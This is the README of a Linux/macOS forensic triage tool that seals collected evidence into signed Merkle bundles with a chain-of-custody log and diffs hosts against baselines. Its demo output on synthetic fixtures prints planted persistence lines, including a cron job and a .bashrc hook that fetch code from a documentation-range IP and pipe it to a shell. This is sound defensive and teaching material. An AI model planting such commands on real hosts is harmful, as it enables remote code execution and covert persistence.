

# evidencelocker

A live-response triage collector for Linux and macOS hosts that writes what it
finds into **signed, Merkle-verified evidence bundles** with a **hash-chained
chain-of-custody log**. You can verify a bundle later and get a precise answer
about tampering ("byte 33320, inside `files/etc/cron.d/sysupdate`, does not match
the sealed hash"). You can also diff a bundle against a known-good baseline to
surface new persistence, replaced binaries, rogue listeners and new privileged
accounts.

```
collect ──► seal (tar.zst + Merkle manifest + ed25519) ──► custody log (signed hash chain)
                                   │
                 verify ◄──────────┼──────────► diff vs. baseline ──► ranked findings
                                   │
                        prove one file (inclusion proof) ──► verify-proof
```

This is a portfolio project, built and tested against **synthetic fixture
filesystems**. It has not been used on real incidents. Read
[Limitations](#limitations) before relying on it.

## Who it is for

- **Incident responders** who need a fast first look at a suspect host and a
  defensible record of what was collected, when, by whom, and who has held it
  since.
- **Detection and forensics engineers** who want a small, readable reference
  for tamper-evident evidence formats: RFC 9162 Merkle trees, signed tree
  heads, canonical encodings and hash-chained logs.
- **Tool builders** who want to add their own collectors. The plugin interface
  is a three-method Go interface, and the stock CLI accepts a custom registry
  ([example](examples/customcollector/main.go)).

## What it does

| Area | What you get |
|---|---|
| Collectors | `processes` (procfs), `sockets` (listening TCP/bound UDP, attributed to PIDs via fd links), `users` (utmp sessions), `accounts` (passwd + privileged groups, **never** shadow), `persistence` (cron, systemd, launchd plists, shell rc files, rc.local, ld.so.preload, SSH authorized_keys, each with heuristic tags), `filehash` (SHA-256, mode and setuid bits of key dirs; raw capture of `/tmp`-like staging dirs) |
| Configurable root | Every collector reads through `pkg/fsroot`, a chroot-style view of any directory, so the same code runs against `/`, a mounted image or a test fixture. Symlinks can never escape the root. |
| Bundle | Canonical tar stream compressed with zstd, containing payload entries, a manifest, a signed tree head and an ed25519 signature. The entries are the leaves of an RFC 9162 Merkle tree. |
| `verify` | Every byte of the bundle is checked: content hashes, manifest digest, Merkle root, signature, signer pinning, a byte-for-byte canonical tar layout, and a canonical re-compression check. Each finding names the entry and the tar byte range. |
| Custody | JSON Lines log. Every entry is signed, hash-chained and bound to the bundle digest. A transfer names the recipient's key, and only the current custodian can append. |
| `diff` | Generic key/digest diff for every collector, with severity rules per collector (e.g. new UID-0 account → critical; executable in `/tmp` → high). Changed rc files are shown as line diffs taken from the captured copies. |
| `prove` | Exports an inclusion proof, so you can show one file was in the sealed bundle without handing over the whole bundle. |

## Architecture



| Package | Role |
|---|---|
| `pkg/fsroot` | Confined, chroot-semantics filesystem view (`Resolve`, `ReadFile`, `Glob`, `Walk`, `OpenRegular`) |
| `pkg/collector` | Plugin interface, registry, config plumbing, runner, record-file encoding |
| `pkg/collectors/*` | The six built-in collectors and `builtin.Registry()` |
| `pkg/merkle` | RFC 9162 tree, audit paths, inclusion verification |
| `pkg/keys` | ed25519 key generation and PEM (PKCS#8/PKIX) storage |
| `pkg/bundle` | Seal, verify (findings with byte spans), read, inclusion proofs |
| `pkg/custody` | Signed, hash-chained custody log |
| `pkg/baseline` | Snapshot loading (verified), diff engine, severity rules, text renderer |
| `pkg/triage` | Collect → seal → custody pipeline used by the CLI and embedders |
| `internal/cli` | Command-line front end (`evidencelocker`) |

For the algorithms, invariants and complexity, see
[docs/ARCHITECTURE.md](docs/ARCHITECTURE.md). The byte-level format is in
[docs/BUNDLE_FORMAT.md](docs/BUNDLE_FORMAT.md), the custody model and its
limits are in [docs/CUSTODY.md](docs/CUSTODY.md), collectors and the plugin API
are in [docs/COLLECTORS.md](docs/COLLECTORS.md), and the threat model is in
[docs/THREAT_MODEL.md](docs/THREAT_MODEL.md).

## Quickstart

Requires Go 1.27+ (module pinned to `go 1.27.1`). The only dependency is
`github.com/klauspost/compress` v1.20.1 for zstd.

```sh
make build                      # -> bin/evidencelocker
make check                      # fmt, vet, golangci-lint, race tests, coverage >= 80%
make demo                       # offline end-to-end walkthrough on the fixtures

bin/evidencelocker keygen --out responder          # responder.key (0600) + responder.pub
sudo bin/evidencelocker collect --root / --out host.tar.zst \
     --key responder.key --case IR-1 --examiner alice  # also writes host.tar.zst.custody.jsonl
bin/evidencelocker verify --trusted-key responder.pub \
     --custody host.tar.zst.custody.jsonl host.tar.zst
bin/evidencelocker diff --trusted-key responder.pub golden.tar.zst host.tar.zst
```

Live collection of `processes`, `sockets` and `users` needs Linux (procfs,
glibc utmp). On macOS those collectors report `skipped`, and `persistence`,
`accounts` and `filehash` still run. Collector options are set in a JSON file
(`--config`, see [configs/collect.example.json](configs/collect.example.json)).
There are no environment variables.

Exit codes: `0` success, `1` verification failure or diff findings at or above
`--fail-on` (default `medium`), `2` usage or I/O error.

## Demo output (real run)

`make demo` (`scripts/demo.sh`) runs entirely offline against
`testdata/hosts/{baseline,compromised}`. These are synthetic trees in which the
"malware" is inert shell-script stand-ins and the attacker IPs come from the
RFC 5737 documentation ranges. Excerpts from a run on 2026-10-24 (hashes and
timestamps change per run because keys are generated fresh):

```
== 3. collect the suspect host (same server, after the incident)
host       web01 (Ubuntu 24.04.1 LTS (evidencelocker fixture)) root=testdata/hosts/compromised live=false
collectors
  accounts     ok           9 records    2 captures   0 warnings
  filehash     ok          17 records    2 captures   0 warnings
  persistence  ok          19 records   17 captures   0 warnings
  processes    ok          11 records    0 captures   0 warnings
  sockets      ok           5 records    0 captures   0 warnings
  users        ok           2 records    0 captures   0 warnings
bundle     .demo/web01-incident.tar.zst (10355 bytes, 27 entries)
merkle     76359c86b52ce0cb1ab0b5991c709f0fd8e7e5298f59cd1a61ee0c1f44ad36ae
signed by  ed25519:b90068e7b9d8bec3e86ba587e3f0a026

== 5. hand custody to the analyst; analyst records an examination
==    the former custodian can no longer sign
error: custody: signer ed25519:b90068e7b9d8bec3e86ba587e3f0a026 is not the current custodian (analyst holds custody)
  0  2026-10-24T03:27:46.542176000Z  seal      responder [ed25519:b90068e7b9d8bec3e86ba587e3f0a026]  "live response, ticket 7731"
  1  2026-10-24T03:27:46.567831000Z  transfer  responder [ed25519:b90068e7b9d8bec3e86ba587e3f0a026] -> analyst  "sealed bag 17, courier"
  2  2026-10-24T03:27:46.581359000Z  access    analyst [ed25519:8eeedb6023edab4c00b253615c3c7886]  "opened in lab VM"

== 6. diff against the baseline (exit 1 = findings at/above medium)
summary:  6 critical, 7 high, 1 medium, 2 low

[CRITICAL] accounts: new UID 0 account sysupd
[CRITICAL] persistence: new cron persistence in /etc/cron.d/sysupdate
    line 2: */5 * * * * root curl -fsSL http://203.0.113.50/u.sh | sh
    heuristic: download-piped-to-shell
[CRITICAL] persistence: new ld-preload persistence in /etc/ld.so.preload
[CRITICAL] persistence: new systemd persistence in /etc/systemd/system/dbus-org.freedesktop.helper.service
[HIGH] filehash: binary replaced: /usr/bin/ls
    sha256: 3b5354b7b3988fe4 -> db26bff5e2c59ca0
[HIGH] persistence: shell-rc persistence changed in /root/.bashrc
    + export PROMPT_COMMAND='history -a; curl -s http://203.0.113.50/k >/dev/null 2>&1'
[HIGH] processes: process running from a deleted executable: /tmp/.cache/stage2
[HIGH] sockets: new listener owned by a binary in a world-writable directory: tcp/0.0.0.0:4444
...

== 7a. tamper: flip one byte inside files/etc/cron.d/sysupdate
result   FAILED: 1 finding(s)
  - ENTRY_HASH_MISMATCH files/etc/cron.d/sysupdate: content SHA-256 38fc4302..., manifest says e47eb9e9... [tar bytes 33280-33368]

== 7b. tamper: flip one byte of the compressed file, checked against the custody seal
  - FILE_DIGEST_MISMATCH: bundle file SHA-256 bff1e4ed... differs from expected 425b51f4...
  - CONTAINER_CORRUPT: compressed stream corrupt (zstd: CRC check failed); ...
  - line 1 (seq 0) BUNDLE_BINDING: sealed bundle SHA-256 425b51f4..., bundle file is bff1e4ed...

== 7c. tamper: rewrite a custody note after the fact
  - line 2 (seq 1) HASH_MISMATCH: entry hash 99ee1eed..., recorded da23b2b6... (entry content altered)
  - line 2 (seq 1) SIGNATURE_INVALID: signature by responder does not verify

== 7d. tamper: drop the newest custody entry (caught only with an out-of-band head)
custody  .demo/t-truncated.jsonl: 2 entries, current custodian analyst, head da23b2b6...: OK
  - log HEAD_MISMATCH: expected head d85a1dc04095edea… not found: log was truncated or rewritten

== 8. selective disclosure: prove one file is in the sealed bundle
proof    OK: files/etc/cron.d/sysupdate (88 bytes, sha256 e47eb9e9...)
         leaf 8 of 27 under root 76359c86..., case IR-2026-042, trusted signer ed25519:b90068e7...
content  matches the proven entry
```

Long hashes are shortened with `...` above. Every line is otherwise unedited
output from that run, apart from the 7b `CONTAINER_CORRUPT` line, whose wording
was refined after the run. The full transcript is in the build report.

## Design decisions (short version)

Full rulings, with what each one costs if it is wrong, are in
[DECISIONS.md](DECISIONS.md).

- **A canonical layout replaces trusting the parser.** A tar reader ignores
  padding bytes and some header fields. A signature over content hashes alone
  would leave those bytes unprotected. The verifier rebuilds the canonical tar
  stream from the archive's own names and contents and compares it byte for
  byte. Any difference is a `LAYOUT_NONCANONICAL` finding that names its region.
- **A Merkle tree instead of a flat hash list.** The tree's only cost is a
  32-byte root in the signed head, and it enables
  `prove`/`verify-proof`: you can disclose one file with an O(log n) proof
  instead of the whole bundle.
- **The signature covers a small `head.json`, not the manifest.** This
  follows the Certificate Transparency STH. The head pins the manifest digest
  and the Merkle root, so proofs verify without the manifest.
- **Custody is enforced, not just recorded.** A transfer names the
  recipient's public key, and only that key can sign the next entry. A
  former custodian holding a valid key cannot append.
- **The tool never reads `/etc/shadow`.** It also never follows symlinks out
  of the root and never writes to the evidence source.

## Evaluation and benchmarks

Every number below comes from a committed command. The run conditions are
stated with each number.

**Tamper detection.** `make eval` (`go run ./tools/tampereval -fixture compromised -mask 0xff`)
seals the compromised fixture, flips every single byte, and verifies each
mutant:

```
bundle: fixture "compromised", 27 entries, 61952 bytes tar, 10321 bytes compressed, mask 0xff, stride 1
tar stream:  61952/61952 flips detected (100.00%), 61952/61952 localised to the flipped byte's region (100.00%) in 24.657s
    first finding CONTAINER_CORRUPT           16354
    first finding ENTRY_HASH_MISMATCH         28994
    first finding HEAD_INVALID                  322
    first finding LAYOUT_NONCANONICAL         10244
    first finding MANIFEST_DIGEST_MISMATCH     5772
    first finding SIGNATURE_INVALID             266
compressed:  10321/10321 flips detected (100.00%) without any external digest in 2.127s
    first finding CONTAINER_CORRUPT           10321
```

"Localised" means at least one finding's tar byte span contains the flipped
offset. The unit tests repeat the exhaustive tar sweep with masks `0x01` and
`0x20` (`TestFlipEveryTarByte`). They also flip every byte of the compressed
file both with and without the custody digest (`TestFlipEveryCompressedByte`),
and flip every byte of a 4-entry custody log, requiring a finding on the exact
line (`TestFlipEveryLogByte`). These are single-byte flips by a party without
the signing key. Forgery by a key holder is out of scope (see the threat model).

**Baseline diff.** `TestCompromisedVsBaseline` (`pkg/baseline`) asserts the
exact severity and title of all 16 findings for the planted changes in the
compromised fixture: 6 critical, 7 high, 1 medium, 2 low. It also asserts that
comparing a bundle with itself yields zero findings. This is a fixture test,
not a detection-rate measurement. The fixture was written by the same person
who wrote the rules.

**Coverage.** `make cover` (`scripts/coverage.sh 80`) reports **89.9%** of
statements over `./pkg/... ./internal/...` on the last run. The gate requires at
least 80%.

**Throughput.** `make bench` (`scripts/bench.sh`, `-benchtime 5x`) ran on an
Apple M1 Pro (8 cores) while other build jobs were running (load average
~10), so these figures are indicative only:

| Benchmark | Result |
|---|---|
| Seal 32 MiB of incompressible payload (256 entries) | 480 MB/s |
| Verify the same bundle (4 file passes + recompression check) | 286 MB/s |
| `filehash` over 2,000 × 16 KiB files, 4 workers | 232 MB/s |
| Merkle tree build, 100k leaves | 8.8 ms |
| Inclusion proof + verify, 100k-leaf tree | 2.1 µs |

**Size.** `git ls-files '*.go' | grep -v _test.go | grep -v -E '^(internal/fixtures|tools|examples)/' | xargs wc -l`
→ 7,132 lines of non-test Go across the libraries, CLI and test helpers,
including comments.

## Limitations

- **Fixtures, not field data.** Every collector was tested against synthetic
  trees and parser unit tests. Nothing has been run against a real compromised
  host, and real systems will exercise edge cases the fixtures do not.
- **A userland collector trusts the kernel it runs on.** A kernel rootkit,
  LD_PRELOAD hooks in the tool's own process, or a tampered `/proc` can lie to
  it. The bundle proves what the tool saw, not what was true. Prefer offline
  collection from a mounted image, using `--root`, when compromise is suspected.
- **Only the newest custody entries can be removed without detection.** The
  log is append-only by convention. Dropping the latest entries is detected
  only when you supply a head hash recorded out of band (`--expect-head`).
  There is no transparency log or RFC 3161 timestamping, so timestamps are
  whatever the signer's clock said.
- **Keys are not identities.** A signature proves possession of a key. Binding
  keys to people (PKI, HSMs, YubiKeys) is outside this tool. Private keys are
  PEM files on disk, and there is no key revocation.
- **Platform coverage.** procfs, socket and utmp parsing is Linux-only (glibc
  64-bit utmp layout, little-endian `/proc/net`). launchd binary plists are
  hashed and captured but not parsed. macOS `utmpx`, Windows, and container
  runtimes are not covered. The custody log uses `flock`, so it is Unix-only.
- **Heuristics are crude.** The persistence tags are regexes for well-known
  tradecraft. They produce false positives (`curl` in a legitimate cron job)
  and miss anything obfuscated. Diff severities are opinionated and were tuned
  on the same fixtures they are tested on.
- **Canonical re-compression depends on the encoder version.** The check
  works only when the verifier uses the same zstd encoder that sealed the
  bundle (`klauspost/compress` v1.20.1). Otherwise it is skipped with a note.
  Compressed-byte edits are still caught by zstd checksums or by the custody
  digest.
- **Memory.** Manifest, head and signature are buffered (capped at 256 MiB).
  Payload is streamed for verification but held in memory while sealing, so
  `filehash` hashes binaries instead of embedding them.

## Roadmap

- RFC 3161 timestamp tokens and/or a transparency-log anchor for custody heads
- Offline image support (`--root` over a read-only loop mount, E01/raw via a FUSE helper)
- macOS `utmpx`, binary plist decoding, launchd `BTM` database; Linux `at` jobs, udev rules, PAM modules
- Streaming seal for large captures (two-pass hashing instead of in-memory items)
- Hardware-backed signing (PKCS#11 / Secure Enclave)

## Project files

[DECISIONS.md](DECISIONS.md) · [DATA.md](DATA.md) · [docs/](docs/) · [LICENSE](LICENSE) (MIT)
